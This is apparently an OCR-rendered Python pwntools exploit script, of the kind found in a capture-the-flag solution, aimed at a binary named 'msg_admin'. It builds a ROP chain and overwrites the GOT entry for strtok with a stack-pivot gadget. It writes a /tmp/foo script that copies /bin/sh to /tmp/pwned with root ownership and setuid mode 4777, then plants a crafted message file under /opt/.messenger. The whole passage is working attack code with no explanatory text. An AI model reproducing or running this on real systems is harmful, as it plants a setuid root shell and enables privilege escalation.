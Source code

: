 ```python

log.success("Insert ROP pun here...")
elf = ELF('msg_admin')
rop = ROP(elf)

pivot = rop.search(move=20).address # Need to move the stack 16 bytes
strtok = elf.got['strtok']
rop = ROP(elf)

def add_offset(addr):
    # 0x08048feb : add eax, dword ptr [ebx + 0x1270304] ; ret 
    add_to_sum = 0x08048feb
    rop.raw(pop_ebx)
    rop.raw(addr - 0x1270304)
    rop.raw(add_to_sum)

tmpfoo = elf.search('/tmp/foo').next()
atol = elf.got['atol']

pop_ebx = 0x804859d
call_eax = 0x8048786

hex_c6e8 = 0x8048595
hex_2203 = 0x8048dff
hex_14 = 0x8048833
hex_1 = 0x8048fb9 

rop.raw(0x8048790) # eax = 0

add_offset(atol)
add_offset(hex_c6e8)
add_offset(hex_2203)
add_offset(hex_14)
add_offset(hex_1)

rop.raw(call_eax)
rop.raw(tmpfoo)

r.sendline('echo "cp /bin/sh /tmp/pwned; chown root /tmp/pwned; chmod 4777 /tmp/pwned" > /tmp/foo')
r.sendline('chmod +x /tmp/foo')
log.info('Create our root command file at /tmp/foo')
log.info('echo "cp /bin/sh /tmp/pwned; chown root /tmp/pwned; chmod 4777 /tmp/pwned" > /tmp/foo')
log.info('chmod +x /tmp/foo')

# Overwrite strtok with the pivot gadget
sc = str(rop)
sc += cyclic(cyclic_find('daac')-len(sc))
sc += p32(strtok) # where to overwrite
sc += 'C' * (216 - len(sc))

data = ''
data += '{}|{}\n'.format('s'*4, sc)
data += '{}|{}\n'.format(p32(pivot), str(rop))

pwnmsg_file = ''
for b in data:
    pwnmsg_file += '\\x{}'.format(b.encode('hex'))

r.sendline('''python -c "print '{}'" >> /opt/.messenger/pwn.msg'''.format(pwnmsg_file))
log.info('Create our malicious msg file')
log.info('''python -c "print '{}'" >> /opt/.messenger/pwn.msg'''.format(pwnmsg_file))

r.sendline('rm /tmp/pwned')
```